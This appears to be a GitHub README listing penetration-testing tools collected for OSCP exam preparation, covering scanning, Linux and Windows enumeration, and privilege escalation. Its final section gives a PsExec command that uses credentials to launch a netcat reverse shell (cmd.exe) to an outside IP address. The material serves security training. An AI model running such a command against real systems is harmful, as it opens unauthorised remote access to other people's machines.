 # GATHERED TOOLS THAT ARE USEFUL FOR OSCP !!



## Scanning

- nmapAutomator.sh

	- removed nikto and gobust parts, since sparta does nikto and i prefer to gobust separately, when needed.

from https://github.com/21y4d/nmapAutomator


## Post-Exploitation enums !~ !~ !!

### Linux

- linenum.sh

from rebootuser https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

- linuxprivchecker.py

from https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py

- unixprivchk.sh

from pentestmonkey

### Windows 

- Powerless.bat |  cmd shell enum (for scenarios without PowerShell)

from https://github.com/M4ximuss/Powerless

- windows-exploit-suggester.py

- windows-privesc-check2.exe

- accesschk5.2.exe |  backward compatible for use alongside fuzzy security's walkthrough


## Privilege escalation tools

### Windows

- PsExec.exe / PsExec64.exe |  to run with elevated accounts

	- eg  PsExec64.exe \\DOMAIN -u USERNAME -p PASSWORD nc.exe -e cmd.exe 10.11.0.106 80 

